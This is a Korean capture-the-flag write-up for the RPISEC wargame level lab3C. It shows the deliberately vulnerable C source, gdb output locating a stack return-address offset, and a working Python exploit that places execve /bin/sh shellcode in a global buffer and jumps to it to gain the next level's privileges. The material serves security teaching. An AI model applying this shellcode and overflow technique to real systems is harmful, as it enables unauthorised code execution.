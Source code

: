 ## 1. 문제 확인
- ID : lab3C
- Target : /level/lab03/lab3C
- flag : /home/lab3B/.pass
```
	lab3C@warzone:/levels/lab03$ ./lab3C
	********* ADMIN LOGIN PROMPT *********
	Enter Username: g4nzzi
	verifying username....

	nope, incorrect username...

	lab3C@warzone:/levels/lab03$
```

<br/><br/>
## 2. 취약점 분석
### 2.1 Source Code
```c
	#include <stdlib.h>
	#include <stdio.h>
	#include <string.h>

	/* gcc -z execstack -fno-stack-protector -o lab3C lab3C.c */

	char a_user_name[100];

	int verify_user_name()
	{
    	    puts("verifying username....\n");
    	    return strncmp(a_user_name, "rpisec", 6);
	}

	int verify_user_pass(char *a_user_pass)
	{
    	    return strncmp(a_user_pass, "admin", 5);
	}

	int main()
	{
    	    char a_user_pass[64] = {0};
    	    int x = 0;

    	    /* prompt for the username - read 100 byes */
    	    printf("********* ADMIN LOGIN PROMPT *********\n");
    	    printf("Enter Username: ");
    	    fgets(a_user_name, 0x100, stdin);

    	    /* verify input username */
    	    x = verify_user_name();
    	    if (x != 0){
        	puts("nope, incorrect username...\n");
        	return EXIT_FAILURE;
    	    }

    	    /* prompt for admin password - read 64 bytes */
    	    printf("Enter Password: \n");
    	    fgets(a_user_pass, 0x64, stdin);

    	    /* verify input password */
    	    x = verify_user_pass(a_user_pass);
    	    if (x == 0 || x != 0){
        	puts("nope, incorrect password...\n");
        	return EXIT_FAILURE;
    	    }

    	    return EXIT_SUCCESS;
	}
```
### 2.2 Code 분석
#### 2.2.1 main()
- 전역변수 a_user_name 은 100byte 크기이지만 fgets()함수를 통해 256byte(0x100)를 입력받을 수 있으므로 overflow 발생 가능
```c
	char a_user_name[100];
        ...
        printf("********* ADMIN LOGIN PROMPT *********\n");
        printf("Enter Username: ");
        fgets(a_user_name, 0x100, stdin);
        ...
```
- 지역변수 a_user_pass 는 64byte 크기이지만 fgets()함수를 통해 100byte(0x64)를 입력받을 수 있으므로 overflow 발생 가능
```c
	char a_user_pass[64] = {0};
        ...
        printf("Enter Password: \n");
        fgets(a_user_pass, 0x64, stdin);
        ...
```
- a_user_name 는 초기화되지 않은 전역변수이므로 bss 섹션에 위치하고, 프로그램 실행 시 메모리 주소 확인이 가능함 (a_user_pass 는 지역변수이기 때문에 stack에 위치함)
```
	gdb-peda$ info variables
	All defined variables:

	...
	0x08049c20  stdin@@GLIBC_2.0
	0x08049c24  completed
	0x08049c40  a_user_name
	0x08049ca4  _end
	gdb-peda$
```
- a_user_pass 값에 104byte(AAAA~ZZZZ)를 입력하면 overflow가 발생하고 main()함수 리턴주소 위치가 UUUU(0x55555555) 부분임을 확인할 수 있음
```
	Starting program: /levels/lab03/lab3C
	********* ADMIN LOGIN PROMPT *********
	Enter Username: rpisec
	verifying username....

	Enter Password:	AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
        ...
        Stopped reason: SIGSEGV
	0x55555555 in ?? ()
	gdb-peda$
```
```
	[   a_user_pass  ] [dummy] [SFP][RET]
        AAAABBBBCCCCDDDDEEEEFFFF ~~ TTTTUUUUVVVVWWWWXXXXYYYYZZZZ
	                                ^
	|----------  (80byte) --------- |
```
- 쉘코드를 a_user_name 변수에 저장하고 a_user_pass 입력을 통해 overflow를 발생시켜, main()함수 리턴 주소를 쉘코드가 저장된 주소로 변경

<br/><br/>
## 3. Exploit
- verify_user_name() 체크를 통과하기 위해 "rpisec"(6byte) 문자와 쉘코드를 첫번째 입력값으로 넣고, 두번째 입력에서 임의의 80byte 문자와 리턴(쉘코드)주소를 입력함
  (쉘코드 주소는 a_user_name 주소(0x08049c40) + 6byte)
```python
	print("rpisec"+ "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")

	print("a"*80 + "\x46\x9c\x04\x08")
```
- 작성된 코드를 실행하여 입력 데이터를 만들고, 프로그램 실행 인자로 전달하면 쉘 획득
```
	lab3C@warzone:/levels/lab03$ python /tmp/lab3c.py > /tmp/lab3c_input
	lab3C@warzone:/levels/lab03$ (cat /tmp/lab3c_input; cat) | ./lab3C
	********* ADMIN LOGIN PROMPT *********
	Enter Username: verifying username....

	Enter Password:
	nope, incorrect password...

	id
	uid=1010(lab3C) gid=1011(lab3C) euid=1011(lab3B) groups=1012(lab3B),1001(gameuser),1011(lab3C)
```
